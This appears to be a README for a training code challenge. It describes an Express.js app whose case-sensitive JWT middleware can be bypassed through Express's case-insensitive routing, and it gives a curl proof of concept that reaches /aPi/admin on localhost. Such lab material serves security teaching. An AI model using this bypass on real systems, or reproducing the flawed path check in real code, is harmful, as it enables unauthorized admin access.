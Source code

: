 # day 4 javascript
We have a small javascript application that developed by expressjs framework. ExpressJS routing provide case-insensitive routing by default.
But our team developed a middleware for validation of JWT tokens with `startsWith` function that are working case-sensitive by default.

## build and run from source
```bash
git clone https://github.com/ahmetak4n/sonarsource-code-challanges.git
cd sonarsource-code-challanges/day4
npm install
node app.js
```

## build and run with docker
```bash
git clone https://github.com/ahmetak4n/sonarsource-code-challanges.git
cd sonarsource-code-challanges/day4
docker build -t sscc-day4 .
docker run -p 1337:1337 sscc-day4:latest
```

## verify the vulnerability
You can't access `/api/admin` path because we don't have any valid JWT token
``` bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/api/admin'
```
----
You can bypass the token validation with following way
```bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/aPi/admin'
```
